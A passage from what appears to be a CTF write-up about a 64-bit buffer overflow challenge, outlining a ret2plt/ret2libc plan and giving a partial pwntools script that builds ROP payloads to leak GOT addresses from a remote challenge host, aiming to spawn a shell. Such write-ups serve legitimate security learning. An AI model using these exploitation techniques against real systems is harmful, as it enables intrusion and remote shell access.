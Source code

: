 ```C

```

That source code looks familiar... it's the same from the second challenge, `ed`!
But there are some slight (which make things much harder) changes.

This time there is no `win` or `flag` function, and the buffer is twice as big.. I think we have some ROPing to do...

### 4.D: The bug

Like the previous buffer overflow challenge, `ed`, the input buffer is 24 bytes but the program gets 128 bytes from us so we can clobber the return address, and redirect code execution... but where to? There's no win function!

We'll need to use some creativity, and do a ret2plt and then a ret2libc attack, but there's also one more complication, we don't have the libc version, so we'll need to leak values from the GOT, and calculate offsets to get the address of `system` and other gadgets mentioned before.

### 4.E: POC

#### Plan of attack:

- Leak function addresses using ROP, to bypass ASLR
- Find libc version based on the offsets we leaked
- Calculate the base of libc, and then the gadgets we need
- Send a final payload with `system` and `/bin/sh` addresses to spawn a shell

Here's a commented POC script to explain stuff further

```python
#!/usr/bin/env python3

from pwn import *

### SETUP ###

elf= ELF('./print_in_main')
original=ELF('./ex2_patched')

rop=ROP(original)
pop_rdi=rop.find_gadget(['pop rdi'])[0]   ### To pass arguments, as per the 64-bit calling conventions
ret=rop.find_gadget(['ret'])[0]           ### Stack alignment issues... each time a new function is called, the stack address must end with 00
puts_plt=original.plt.puts_plt			  ### Reminder: calling a function using it's address from the PLT is like calling the function directly
functions=original.got					  ### Leak all addresses from the GOT , to print them later using puts


session = remote('ex.hsctf.com', 1337) # REMOTE
#session=original.process()   # LOCAL

### -------------------------------- ###
### START LEAKING FUNCTION ADDRESSES ###

for i in functions:
	payload=b"".join([
			b'A'*40,
			p64(ret),
			p64(pop_rdi),
			p64(functions[i]),
			p64(puts_plt),
			p64(original.symbols['main']),
			])
```